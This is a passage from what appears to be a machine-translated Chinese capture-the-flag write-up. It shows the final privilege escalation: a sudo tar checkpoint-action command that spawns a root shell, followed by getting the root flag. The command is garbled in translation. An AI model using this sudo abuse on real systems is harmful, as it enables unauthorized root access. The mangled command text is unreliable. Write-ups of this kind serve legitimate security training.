 ![](img/979f5bf56670a3381a6a9d2b289a7789.png)![](img/5e62224a07390933072209e1d973a7d0.png)

一定要看描述。我觉得挺好的。忍不住跑起来，扎了根。让我们看看。手指交叉。

> sudo tar-cf/dev/null/dev/null—check point = 1—check point-action = exec =/bin/sh

![](img/51bf49688e4f01a9d0213efa7c55a92c.png)

我们已经成功提升了我们的特权。我们现在可以确认我们是 root 了。

还有最后一件事要做，我们结束了。

拿到我们的根旗。我们很容易就能找到自己的根旗。

![](img/770d90641b1174348106ee18793f5d49.png)
